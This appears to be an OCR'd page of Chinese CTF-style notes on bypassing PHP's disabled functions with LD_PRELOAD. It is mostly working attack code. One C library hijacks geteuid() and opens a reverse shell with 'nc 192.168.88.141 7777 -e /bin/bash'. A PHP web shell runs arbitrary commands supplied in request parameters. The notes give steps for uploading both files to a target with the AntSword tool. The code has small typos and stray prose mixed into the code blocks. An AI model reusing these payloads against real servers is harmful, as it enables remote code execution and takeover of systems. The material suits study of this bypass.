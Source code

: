 ```php
putenv("LD_PRELOAD=./demo.so");
mail('','','','');
?>

然后将demo.php和demo.so通过蚁剑上传

然后再在url上访问demo.php,随后便可以在tmp目录下找到flag
```

```php
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
	system("nc 192.168.88.141 7777 -e /bin/bash"); //读取flag输出到/tmp/flag
}
int geteuid(){               //生成动作geteuid，执行payload
	unsetenv("LD_PRELOAD");  //结束调用
	payload();
}
然后使用nc -lvp 7777来监听，再在url上访问demo.php后，便可以反弹shell
```

```php
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
int geteuid(){   
	const char* cmdline = getenv("EVIL_CMDLINE");
    if(getnev("LD_PRELOAD") == NULL){
        return 0;
    }
    unsetenv("LD_PRELOAD");
    system(cmdline);
}
把要执行的命令赋值到环境变量EVIL_CMDLINE直接读取命令

构造demo.php

<?php
$cmd=$_REQUEST["cmd"]; //要执行的系统命令cmd
$out_path=$_REQUEST["outpath"]; //outpath命令执行结果输出到指定路径下的文件
$evil_cmdline=$cmd.">".$out_path."2>&1"; //2>&1将标准错误重定向到标准输出
echo "<br /><b>cmdline:</b>".$evil_cmdline; //打印显示实际在linux上执行的命令
putenv("EVIL_CMDLINE=".$evil_cmdline); //将执行的命令，配置成系统环境变量EVIL_CMDLINE

$so_path=$_REQUEST["sopath"]; //sopath传入.so文件
putenv("LD_PRELOAD=".$so_path); //将.so文件路径配置成系统环境变量LD_PRELOAD
mail("","","","");
echo "<br /><b>output:</b><br/>".nl2br(file_get_contents($out_path)); //echo把内容在网页上显示出来
?>

用蚁剑上传demo.php和demo.so

url:demo.php?cmd=ls&outpath=/tmp/benben&sopath=./demo.so

cmd执行的命令

outpath输出的路径

sopath指定恶意动态链接库
```
